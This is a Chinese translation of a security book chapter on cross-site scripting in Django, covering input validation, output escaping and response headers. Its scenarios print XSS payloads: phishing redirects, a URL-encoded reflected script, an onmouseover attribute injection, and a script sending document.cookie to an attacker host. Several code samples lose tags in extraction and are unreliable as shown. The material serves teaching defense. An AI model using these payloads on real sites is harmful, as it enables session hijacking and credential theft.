




# 第十四章：跨站脚本攻击

本章内容包括

+   使用表单和模型验证输入

+   使用模板引擎转义特殊字符

+   使用响应头限制浏览器功能

在前一章中，我向你介绍了几种小型注入攻击。在本章中，我继续介绍一种被称为 *跨站脚本*（*XSS*）的大家族。XSS 攻击有三种类型：持久型、反射型和基于 DOM 的。这些攻击既常见又强大。

注意：在撰写本文时，XSS 在 OWASP 十大安全威胁中排名第 7 位（[`owasp.org/www-project-top-ten/`](https://owasp.org/www-project-top-ten/)）。

XSS 抵御是 *深度防御* 的一个极好例子；一行防护不够。你将在本章中学习如何通过验证输入、转义输出和管理响应头来抵御 XSS。

## 14.1 什么是 XSS？

XSS 攻击有多种形式和大小，但它们都有一个共同点：攻击者向另一个用户的浏览器注入恶意代码。恶意代码可以采用多种形式，包括 JavaScript、HTML 和层叠样式表（CSS）。恶意代码可以通过许多途径传送，包括 HTTP 请求的主体、URL 或头部。

XSS 有三个子类别。每个子类别都由用于注入恶意代码的机制定义。

+   持久型 XSS

+   反射型 XSS

+   基于 DOM 的 XSS

在本节中，Mallory 进行了所有三种形式的攻击。Alice、Bob 和 Charlie 都将遭受损失。在后续章节中，我将讨论如何抵御这些攻击。

### 14.1.1 持久型 XSS

假设 Alice 和 Mallory 是 social.bob.com 的用户，这是一个社交媒体网站。像其他社交媒体网站一样，Bob 的网站允许用户分享内容。不幸的是，这个网站缺乏足够的输入验证；更重要的是，它在不转义的情况下呈现共享内容。Mallory 注意到了这一点，并创建了以下一行脚本，旨在将 Alice 从 social.bob.com 带到冒牌站点 social.mallory.com：

```py
<script>
    document.location = "https:/./social.mallory.com";    ❶
</script>
```

❶ 客户端重定向的等效

接下来，Mallory 导航到她的个人资料设置页面。她将她的一个个人资料设置更改为她恶意代码的值。Bob 的网站不验证 Mallory 的输入，而是将其持久化到数据库字段中。

后来，Alice 偶然发现了 Mallory 的个人资料页面，现在包含了 Mallory 的代码。Alice 的浏览器执行了 Mallory 的代码，将 Alice 带到了 social.mallory.com，她被欺骗提交了她的身份验证凭据和其他私人信息给 Mallory。

这种攻击是 *持久型 XSS* 的一个例子。一个易受攻击的系统通过持久化攻击者的恶意负载来启用这种形式的 XSS。后来，在受害者的浏览器中，通过受害者的错误，负载被注入。图 14.1 描述了这种攻击。



图 14.1 Mallory 的持久型 XSS 攻击将 Alice 引导至一个恶意冒牌站点。

设计用于共享用户内容的系统特别容易受到这种 XSS 的影响。此类系统包括社交媒体网站、论坛、博客和协作产品。像 Mallory 这样的攻击者通常比这更加激进。例如，这一次 Mallory 等待 Alice 无意中陷入陷阱。在现实世界中，攻击者通常会通过电子邮件或聊天主动引诱受害者访问注入的内容。

在本节中，Mallory 通过 Bob 的网站攻击了 Alice。在下一节中，Mallory 将通过 Alice 的一个网站攻击 Bob。

### 14.1.2 反射型 XSS

假设 Bob 是 Alice 新网站 search.alice.com 的用户。与 google.com 一样，该网站通过 URL 查询参数接受 Bob 的搜索词。作为回报，Bob 收到一个包含搜索结果的 HTML 页面。正如你所预料的那样，Bob 的搜索词被结果页面反映出来。

与其他搜索网站不同，search.alice.com 的结果页面会渲染用户的搜索词而不进行转义。Mallory 注意到了这一点，并准备了以下 URL。此 URL 的查询参数携带了恶意 JavaScript，通过 URL 编码进行了混淆。这个脚本旨在将 Bob 从 search.alice.com 带到另一个冒名顶替的网站 search.mallory.com：

```py
https:/./search.alice.com/?terms=
➥ %3Cscript%3E                                          ❶
➥ document.location=%27https://search.mallory.com%27    ❶
➥ %3C/script%3E                                         ❶
```

❶ 嵌入 URL 的脚本

Mallory 将这个 URL 发送给 Bob 的短信。他上钩了，点击了链接，无意中将 Mallory 的恶意代码发送给了 search.alice.com。网站立即将 Mallory 的恶意代码反射给了 Bob。Bob 的浏览器在渲染结果页面时执行了恶意脚本。最后，他被带到了 search.mallory.com，Mallory 进一步利用了他。

此攻击是反射型 XSS 的一个例子。攻击者通过诱使受害者向易受攻击的站点发送恶意有效载荷来发起这种形式的 XSS。该站点不会保留有效载荷，而是立即以可执行形式将有效载荷反射给用户。图 14.2 描绘了这种攻击。



图 14.2 Bob 将 Mallory 的恶意 JavaScript 从 Alice 的服务器反射出来，无意中将自己带到了 Mallory 的冒名顶替网站。

反射型 XSS 显然不仅限于聊天。攻击者还通过电子邮件或恶意网站引诱受害者。在下一节中，Mallory 用第三种 XSS 类型攻击 Charlie。与反射型 XSS 类似，这种类型的攻击也是从恶意 URL 开始的。

### 14.1.3 基于 DOM 的 XSS

在 Mallory 黑掉 Bob 后，Alice 决心修复她的网站。她将结果页面更改为使用客户端渲染显示用户的搜索词。以下代码说明了她的新结果页面是如何做到这一点的。请注意，现在浏览器而不是服务器从 URL 中提取搜索词。由于搜索词只是不再反映，所以反射型 XSS 漏洞已经不存在：

```py
<html>
  <head>
    <script>
        const url = new URL(window.location.href);
        const terms = url.searchParams.get('terms');    ❶
        document.write('You searched for ' + terms);    ❷

    </script>
  </head>
    ...
</html>
```

❶ 从查询参数中提取搜索词

❷ 将搜索词写入页面的正文

Mallory 再次访问 search.alice.com 并注意到另一个机会。她给查理发送了一封包含恶意链接的电子邮件。这个链接的 URL 与她用来对鲍勃进行反射 XSS 攻击的链接完全相同。

查理上钩并通过点击链接导航到 search.alice.com。爱丽丝的服务器响应了一个普通的结果页面；响应中不包含任何恶意内容。不幸的是，爱丽丝的 JavaScript 将 Mallory 的恶意代码从 URL 复制到页面的正文中。查理的浏览器然后执行 Mallory 的脚本，将查理发送到 search.mallory.com。

Mallory 的第三次攻击是 *基于 DOM 的 XSS* 的一个例子。与反射 XSS 类似，攻击者通过欺骗用户向易受攻击的站点发送恶意有效载荷来启动 DOM-based XSS。与反射 XSS 攻击不同，有效载荷不会被反射。相反，注入发生在浏览器中。

在这三次攻击中，Mallory 成功地诱使她的受害者前往一个冒牌站点，并带有一个简单的一行脚本。实际上，这些攻击可能注入复杂的代码来执行各种利用，包括以下内容：

+   未经授权访问敏感或私人信息

+   利用受害者的授权权限执行操作

+   未经授权访问客户端 cookie，包括会话 ID

+   将受害者发送到受攻击者控制的恶意站点

+   曲解网站内容，如银行账户余额或健康测试结果

这些攻击的影响范围真的很难总结。XSS 非常危险，因为攻击者控制了系统和受害者。系统无法区分受害者的有意请求和攻击者的恶意请求。受害者无法区分系统内容和攻击者内容。

XSS 抵御是防御深度的完美示例。本章的其余部分将教你如何通过分层方法抵御 XSS。我按照 HTTP 请求生命周期的顺序呈现这些材料：

+   输入验证

+   输出转义，是防御最重要的层级

+   响应头

完成本章时，重要的是要记住每个层级单独都不够。你必须采取多层次的方法。

## 14.2 输入验证

在本节中，您将学习如何验证表单字段和模型属性。这是人们在提到输入验证时通常想到的内容。你可能已经有了这方面的经验。部分抵御 XSS 只是验证输入的许多原因之一。即使 XSS 不存在，本节的材料仍将为您提供保护，防止数据损坏、系统误用和其他注入攻击。

在第十章中，您创建了一个名为 `AuthenticatedMessage` 的 Django 模型。我利用了这个机会来演示 Django 的权限方案。在本节中，您将使用相同的模型类来声明和执行输入验证逻辑。您的模型将是 Alice 用于创建新消息的小工作流的中心。此工作流包括以下三个组件在您的 Django 消息应用程序中：

+   您现有的模型类，`AuthenticatedMessage`

+   一个新的视图类，`CreateAuthenticatedMessageView`

+   一个新的模板，authenticatedmessage_form.html

在 templates 目录下，创建一个名为 messaging 的子目录。在该子目录下创建一个名为 authenticatedmessage_form.html 的新文件。打开此文件并将第 14.1 列表中的 HTML 添加到其中。`form.as_table` 变量呈现为一些带标签的表单字段。暂时忽略 `csrf_token` 标签；我在第十六章中涵盖了这一点。

第 14.1 列表 创建新消息的简单模板

```py
<html>

    <form method='POST'>
                    ❶
        <table>
            {{ form.as_table }}     ❷
        </table>
        <input type='submit' value='Submit'>
    </form>

</html>
```

❶ 必要的，但在第十六章中已涵盖

❷ 动态呈现消息属性表单字段

接下来，打开 models.py 并导入内置的 `RegexValidator`，如下一个列表中所示。如粗体字所示，创建 `RegexValidator` 的一个实例，并将其应用于 `hash_value` 字段。此验证器确保 `hash_value` 字段必须完全是 64 个十六进制文本字符。

第 14.2 列表 使用 RegexValidator 进行模型字段验证

```py
...
from django.core.validators import RegexValidator
...
class AuthenticatedMessage(Model):
    message = CharField(max_length=100)
    hash_value = CharField(max_length=64,                                ❶
                           validators=[RegexValidator('[0-9a-f]{64}')])  ❷
```

❶ 确保最大长度

❷ 确保最小长度

像 `RegexValidator` 这样的内置验证器类旨在在每个字段上强制执行输入验证。但有时您需要跨多个字段执行输入验证。例如，当您的应用程序接收到新消息时，消息是否确实哈希到与其到达时相同的哈希值？通过将 clean 方法添加到您的模型类中，您可以处理这样的情况。

将第 14.3 列表中的 `clean` 方法添加到 `AuthenticatedMessage` 中。此方法首先创建一个 HMAC 函数，如粗体字所示。在第三章中，您了解到 HMAC 函数有两个输入：消息和密钥。在这个例子中，消息是您模型的一个属性，而密钥是内联口令。（显然，生产密钥不应存储在 Python 中。）

HMAC 函数用于计算哈希值。最后，`clean` 方法将此哈希值与 `hash_value` 模型属性进行比较。如果哈希值不匹配，则引发 `ValidationError`。这样可以防止没有口令的人成功提交消息。

第 14.3 列表 跨越多个模型字段的输入验证

```py
...
import hashlib
import hmac

from django.utils.encoding import force_bytes
from django.utils.translation import gettext_lazy as _
from django.core.exceptions import ValidationError
...
...
class AuthenticatedMessage(Model):
...
    def clean(self):                                               ❶
 hmac_function = hmac.new(                                  ❷
 b'frown canteen mounted carve',                        ❷
 msg=force_bytes(self.message),                         ❷
 digestmod=hashlib.sha256)                              ❷
        hash_value = hmac_function.hexdigest()                     ❷

        if not hmac.compare_digest(hash_value, self.hash_value):   ❸
            raise ValidationError(_('Message not authenticated'),     
                                  code='msg_not_auth')
```

❶ 执行跨多个字段的输入验证

❷ 对消息属性进行哈希处理

❸ 在恒定时间内比较哈希值

接下来，将列表 14.4 中的视图添加到您的 Django 应用程序中。`CreateAuthenticatedMessageView`继承了一个名为`CreateView`的内置实用类，以粗体字显示。 `CreateView`使您免于从传入的 HTTP 表单字段复制数据到模型字段。`model`属性告诉`CreateView`要创建哪个模型。`fields`属性告诉`CreateView`请求中期望哪些字段。`success_url`指定在成功提交表单后将用户重定向到的位置。

列表 14.4 渲染新消息表单页面

```py
from django.views.generic.edit import CreateView
from messaging.models import AuthenticatedMessage

class CreateAuthenticatedMessageView(CreateView):   ❶
    model = AuthenticatedMessage                    ❷
    fields = ['message', 'hash_value']              ❸
    success_url = '/'                               ❹
```

❶ 继承输入验证和持久性

❷ 指定要创建的模型

❸ 指定要期望的 HTTP 字段

❹ 指定要将用户重定向到的位置

通过继承，`CreateAuthenticatedMessageView`作为模板和模型之间的粘合剂。这个四行类执行以下操作：

1.  渲染页面

1.  处理表单提交

1.  将数据从传入的 HTTP 字段复制到新的模型对象

1.  练习模型验证逻辑

1.  将模型保存到数据库

如果表单成功提交，则将用户重定向到站点根目录。如果请求被拒绝，则使用输入验证错误消息重新呈现表单。

警告：当您在模型对象上调用`save`或`update`时，Django 不会验证模型字段。直接调用这些方法时，您有责任触发验证。通过在模型对象上调用`full_clean`方法来执行此操作。

重启你的服务器，以 Alice 的身份登录，并将浏览器指向新视图的 URL。花几分钟多次使用无效输入提交表单。请注意，Django 会自动使用信息性输入验证错误消息重新呈现表单。最后，使用以下代码为您选择的消息生成一个有效的密钥哈希值。将此消息和哈希值输入表单并提交：

```py
>>> import hashlib
>>> import hmac
>>> 
>>> hmac.new(
...     b'frown canteen mounted carve',
...     b'from Alice to Bob',                           ❶
...     digestmod=hashlib.sha256).hexdigest()
'E52c83ad9c9cb1ca170ff60e02e302003cd1b3ae3459e35d3...'  ❷
```

❶ 成为消息表单字段的值

❷ 成为 hash_value 表单字段的值

这一节中的工作流程相当简单。作为现实世界中的程序员，你可能会遇到比这更复杂的问题。例如，表单提交可能不需要在数据库中创建新行，或者可能需要在多个数据库中的多个表中创建多个行。下一节将解释如何使用自定义 Django 表单类适应这种情况。

### 14.2.1 Django 表单验证

在本节中，我将为您概述如何使用表单类定义和进行输入验证；这不是另一个工作流程。将表单类添加到您的应用程序中可以创建输入验证机会的层次。由于表单验证在许多方面类似于模型验证，因此这些材料对您来说很容易吸收。

列表 14.5 是您的视图如何利用自定义表单的典型示例。`EmailAuthenticatedMessageView`定义了两个方法。`get`方法创建并呈现一个空白的`AuthenticatedMessageForm`。`post`方法通过将请求参数转换为表单对象来处理表单提交。然后通过调用表单的（继承的）`is_valid`方法触发输入验证，以粗体字显示。如果表单有效，则入站消息将通过电子邮件发送给 Alice；如果表单无效，则将表单呈现回用户，让他们有机会再试一次。

列表 14.5 使用自定义表单验证输入

```py
from django.core.mail import send_mail
from django.shortcuts import render, redirect
from django.views import View

from messaging.forms import AuthenticatedMessageForm

class EmailAuthenticatedMessageView(View):
    template = 'messaging/authenticatedmessage_form.html'

    def get(self, request):                              ❶
        ctx = {'form': AuthenticatedMessageForm(), }     ❶
        return render(request, self.template, ctx)       ❶

    def post(self, request):
        form = AuthenticatedMessageForm(request.POST)    ❷

        if form.is_valid():                              ❸
            message = form.cleaned_data['message']
            subject = form.cleaned_data['hash_value']
            send_mail(subject, message, 'bob@bob.com', ['alice@alice.com'])
            return redirect('/')

        ctx = {'form': form, }                           ❹
        return render(request, self.template, ctx)       ❹
```

❶ 通过空白表单征求用户输入

❷ 将用户输入转换为表单

❸ 触发输入验证逻辑

❹ 重新呈现无效的表单提交

自定义表单如何定义输入验证逻辑？接下来的几个列表示例说明了一些定义具有字段验证的表单类的方法。

在列表 14.6 中，`AuthenticatedMessageForm`由两个`CharField`组成。`message` `Charfield`通过关键字参数强制执行两个长度约束，以粗体字显示。`hash_value Charfield`通过`validators`关键字参数强制执行正则表达式约束，同样以粗体显示。

列表 14.6 字段级输入验证

```py
from django.core.validators import RegexValidator
from django.forms import Form, CharField

class AuthenticatedMessageForm(Form):
    message = CharField(min_length=1, max_length=100)                        ❶
    hash_value = CharField(validators=[RegexValidator(regex='[0-9a-f]{64}')])C
```

❶ 消息长度必须大于 1 且小于 100。

❷ Hash 值必须是 64 个十六进制字符。

特定字段的`clean`方法提供了另一种内置的输入验证层。对于表单上的每个字段，Django 自动查找并调用名为`clean_<field_name>`的表单方法。例如，列表 14.7 演示了如何使用名为`clean_hash_value`的表单方法验证`hash_value`字段，以粗体显示。与模型上的`clean`方法一样，特定字段的`clean`方法通过引发`ValidationError`来拒绝输入。

列表 14.7 具有特定字段 clean 方法的输入验证

```py
...
import re
from django.core.exceptions import ValidationError
from django.utils.translation import gettext_lazy as _
...
...
class AuthenticatedMessageForm(Form):
    message = CharField(min_length=1, max_length=100)
    hash_value = CharField()

...

    def clean_hash_value(self):                                         ❶
        hash_value = self.cleaned_data['hash_value']
        if not re.match('[0-9a-f]{64}', hash_value):
            reason = 'Must be 64 hexadecimal characters'
            raise ValidationError(_(reason), code='invalid_hash_value') ❷
        return hash_value
```

❶ 被 Django 自动调用

❷ 拒绝表单提交

在本节的前面，您学习了如何通过向模型类添加`clean`方法来跨多个模型字段执行输入验证。类似地，向表单类添加`clean`方法允许您验证多个表单字段。下面的示例演示了如何从表单的`clean`方法中访问多个表单字段，以粗体字显示。

列表 14.8 跨多个表单字段验证输入

```py
class AuthenticatedMessageForm(Form):
    message = CharField(min_length=1, max_length=100)
    hash_value = CharField(validators=[RegexValidator(regex='[0-9a-f]{64}')])

...

    def clean(self):                                                ❶
        super().clean()
 message = self.cleaned_data.get('message')                  ❷
 hash_value = self.cleaned_data.get('hash_value')            ❷
        ...                                                         ❷
        if condition:
            reason = 'Message not authenticated'
            raise ValidationError(_(reason), code='msg_not_auth')   ❸
```

❶ 被 Django 自动调用

❷ 在多个字段上执行输入验证逻辑

❸ 拒绝表单提交

输入验证仅保护攻击面的一部分。例如，`hash_value`字段被锁定，但`message`字段仍然接受恶意输入。因此，您可能会尝试通过尝试对输入进行清理来超越输入验证。

*输入消毒* 是试图从不受信任的来源净化或清洗数据的尝试。通常，一名有太多空闲时间的程序员会尝试通过扫描输入来查找恶意内容。如果发现恶意内容，则通过某种方式修改输入以将其移除或中和。

输入消毒总是一个坏主意，因为它太难实现了。至少，消毒剂必须识别三种类型的解释器的所有恶意输入：JavaScript、HTML 和 CSS。您可能会将第四个解释器添加到列表中，因为很有可能输入将存储在 SQL 数据库中。

接下来会发生什么？嗯，报告和分析团队的某人想要谈一谈。看起来他们在查询数据库时遇到了问题，因为内容可能已被消毒剂修改。移动团队需要解释。所有那些经过消毒的输入在他们的 UI 中呈现得很差，而他们甚至没有使用解释器。头疼得很。

输入消毒还会阻止您实施有效的用例。例如，您是否曾经通过消息客户端或电子邮件向同事发送过代码或命令行？某些字段旨在接受用户的自由格式输入。系统通过一系列防御层抵御 XSS，因为这些字段根本无法被锁定。最重要的层将在下一节中介绍。

## 14.3 转义输出

在本节中，您将了解到最有效的 XSS 对策，即转义输出。为什么转义输出如此重要？想象一下您工作中使用的数据库之一。想想它有多少张表。想想每张表中的所有用户定义字段。很可能，这些字段中的大多数都以某种方式由网页呈现。每个字段都会增加您的攻击面，其中许多可以通过特殊的 HTML 字符武装起来。

安全的网站通过转义特殊的 HTML 字符来抵御 XSS。表 14.1 列出了这些字符及其转义值。

表 14.1 特殊 HTML 字符及其转义值

| 转义字符 | 名称和描述 | HTML 实体（转义值） |
| --- | --- | --- |
| < | 小于号，元素开始 | &lt; |
| > | 大于号，元素结束 | &gt; |
| ‘ | 单引号，属性值定义 | &#x27; |
| “ | 双引号，属性值定义 | &quot; |
| & | 和号，实体定义 | &amp; |

与其他主要的 Web 框架一样，Django 的模板引擎会自动转义输出，转义特殊的 HTML 字符。例如，如果您从数据库中提取一些数据并在模板中呈现它，您就不必担心持久性 XSS 攻击：

```py
<html>
    <div>
        {{ fetched_from_db }}     ❶
    <div>
</html>
```

❶ 默认情况下，这是安全的。

此外，如果您的模板呈现了一个请求参数，您就不必担心引入反射型 XSS 漏洞：

```py
<html>
    <div>
        {{ request.GET.query_parameter }}    ❶
    <div>
</html>
```

❶ 默认情况下，也是安全的

从项目根目录中，打开一个交互式 Django shell 来亲自看看。键入以下代码以程序化地演示一些 Django 的 XSS 抵抗功能。这段代码创建一个模板，注入恶意代码，并渲染它。请注意最终结果中的每个特殊字符都被转义：

```py
$ python manage.py shell
>>> from django.template import Template, Context
>>> 
>>> template = Template('<html>{{ var }}</html>')              ❶
>>> poison = '<script>/* malicious */</script>'                ❷
>>> ctx = Context({'var': poison})
>>> 
>>> template.render(ctx)                                       ❸
'<html>&lt;script&gt;/* malicious */&lt;/script&gt;</html>'    ❹
```

❶ 创建一个简单的模板

❷ 恶意输入

❸ 渲染模板

❹ 模板中和解

这个功能让你少了些担心，但并不意味着你可以完全忘记 XSS。在下一节中，你将学习何时以及如何暂停此功能。

### 14.3.1 内置渲染实用工具

Django 的模板引擎提供了许多内置标记、过滤器和实用函数用于渲染 HTML。这里以粗体显示的内置 `autoescape` 标记旨在明确暂停模板中一部分的自动特殊字符转义。当模板引擎解析此标记时，它会渲染其中的所有内容而不转义特殊字符。这意味着以下代码容易受到 XSS 攻击：

```py
<html>
            ❶
        <div>
            {{ request.GET.query_parameter }}
        </div>
             ❷
</html>
```

❶ 开始标记，暂停保护

❷ 结束标记，恢复保护

`autoescape` 标记的有效用例很少且值得怀疑。例如，也许有人决定在数据库中存储 HTML，现在你被困承担渲染责任。这也适用于下一个以粗体显示的内置 `safe` 过滤器。该过滤器暂停模板中单个变量的自动特殊字符转义。尽管这个过滤器的名称，以下代码容易受到 XSS 攻击：

```py
<html>
    <div>
        {{ request.GET.query_parameter|safe }}
    </div>
</html>
```

警告：使用 `safe` 过滤器的不安全方式很容易。我个人认为*不安全*可能是这个功能的更好名称。谨慎使用此过滤器。

`safe` 过滤器将大部分工作委托给一个名为 `mark_safe` 的内置实用函数。此函数接受一个原生 Python 字符串，并用 `SafeString` 包装它。当模板引擎遇到 `SafeString` 时，它会有意地按原样渲染数据，不转义。

对来自不受信任来源的数据应用 `mark_safe` 是一种被攻击的邀请。在交互式 Django shell 中键入以下代码，看看为什么。以下代码创建一个简单的模板和一个恶意脚本。如粗体显示，脚本被标记为安全并注入到模板中。尽管不是模板引擎的错，但所有特殊字符在生成的 HTML 中仍然未转义：

```py
$ python manage.py shell
>>> from django.template import Template, Context
>>> from django.utils.safestring import mark_safe
>>> 
>>> template = Template('<html>{{ var }}</html>')        ❶
>>> 
>>> native_string = '<script>/* malicious */</script>'   ❷
>>> safe_string = mark_safe(native_string)
>>> type(safe_string)
<class 'django.utils.safestring.SafeString'>
>>> 
>>> ctx = Context({'var': safe_string})
>>> template.render(ctx)                                 ❸
'<html><script>/* malicious */</script></html>'          ❹
```

❶ 创建一个简单的模板

❷ 恶意输入

❸ 渲染模板

❹ XSS 漏洞

这个名副其实的内置 `escape` 过滤器，以粗体显示，会触发模板中单个变量的特殊字符转义。在自动 HTML 输出转义已关闭的块内，此过滤器按预期工作。以下代码是安全的：

```py
<html>
                                   ❶
        <div>
            {{ request.GET.query_parameter|escape }}   ❷
        </div>
                                    ❸
</html>
```

❶ 开始标记，暂停保护

❷ 无漏洞

❸ 结束标记，恢复保护

像`safe`过滤器一样，`escape`过滤器是 Django 内置实用函数的包装器之一。这里以粗体显示的内置`escape`函数允许您以编程方式转义特殊字符。此函数将转义原生 Python 字符串和`SafeStrings`：

```py
>>> from django.utils.html import escape
>>> 
>>> poison = '<script>/* malicious */</script>'
>>> escape(poison)
'&lt;script&gt;/* malicious */&lt;/script&gt;'     ❶
```

❶ 中和 HTML

像其他所有尊重的模板引擎一样（适用于所有编程语言），Django 的模板引擎通过转义特殊的 HTML 字符来抵抗 XSS 攻击。不幸的是，并非所有恶意内容都包含特殊字符。在下一节中，您将了解到这个框架无法保护您免受的一个特殊情况。

### 14.3.2 HTML 属性引用

以下是一个简单模板的示例。如粗体所示，`request`参数确定了`class`属性的值。如果`request`参数等于普通的 CSS 类名，则此页面将按预期行为。另一方面，如果参数包含特殊的 HTML 字符，Django 将像往常一样对其进行转义：

```py
<html>
    <div class={{ request.GET.query_parameter }}>
        XSS without special characters
    </div>
</html>
```

您是否注意到`class`属性值未加引号？不幸的是，这意味着攻击者可以在不使用任何特殊 HTML 字符的情况下滥用此页面。例如，假设此页面属于 SpaceX 的一个重要系统。Mallory 以反射型 XSS 攻击的方式针对 Falcon 9 团队的技术人员 Charlie。现在想象一下当参数以`className` `onmouseover=javascript:launchRocket()`形式到达时会发生什么。

良好的 HTML 卫生习惯，而不是框架，是抵抗这种形式的 XSS 攻击的唯一方法。简单地引用 class 属性值可以确保`div`标签安全地呈现，无论模板变量值如何。请养成一个习惯，始终引用每个标签的每个属性。HTML 规范不要求单引号或双引号，但有时像这样的简单约定可以避免灾难。

在前面的两节中，您学会了如何通过响应主体来抵抗 XSS 攻击。在下一节中，您将学习如何通过响应头来实现这一点。

## 14.4 HTTP 响应头

*响应* *头*代表对抗 XSS 攻击非常重要的一层防御。这一层可以防止一些攻击，同时限制其他攻击的破坏程度。在本节中，您将从三个角度了解这个主题：

+   禁用 JavaScript 访问 cookie

+   禁用 MIME 嗅探

+   使用`X-XSS-Protection`头

这里每个项目的主要思想是通过限制浏览器对响应的操作来保护用户。换句话说，这是服务器如何将 PLP 应用于浏览器的方式。

### 14.4.1 禁用 JavaScript 访问 cookie

获取受害者的 cookie 是 XSS 攻击的一个常见目标。攻击者特别针对受害者的会话 ID cookie。下面的两行 JavaScript 演示了这是多么容易。

代码的第一行构造了一个 URL。URL 的域指向攻击者控制的服务器；URL 的参数是受害者的本地 Cookie 状态的副本。代码的第二行将此 URL 插入文档中，作为图像标签的源属性。这会触发对 mallory.com 的请求，将受害者的 Cookie 状态传递给攻击者。

```py
<script>
    const url = 'https:/./mallory.com/?loot=' + document.cookie;   ❶
    document.write('');                    ❷
</script>
```

❶ 读取受害者的 Cookie

❷ 将受害者的 Cookie 发送给攻击者

假设 Mallory 使用这个脚本来针对 Bob 进行反射型 XSS 攻击。一旦他的会话 ID 被泄露，Mallory 可以简单地使用它来假扮成 Bob 并在 bank.alice.com 上获取访问权限。她不必编写 JavaScript 来从他的银行账户转账；她可以直接通过 UI 来完成。图 14.3 描述了这种攻击，称为*会话劫持*。

服务器通过设置带有`HttpOnly`指令的 Cookie 来抵御这种形式的攻击，这是`Set-Cookie`响应头的一个属性。（你在第七章学到了这个响应头。）尽管它的名字是`HttpOnly`，但它与浏览器在传输 Cookie 时必须使用的协议无关。相反，这个指令将 Cookie 隐藏起来，不让客户端的 JavaScript 看到。这可以减轻 XSS 攻击，但不能阻止它们。下面显示了一个带有**HttpOnly**指令的示例响应头：

```py
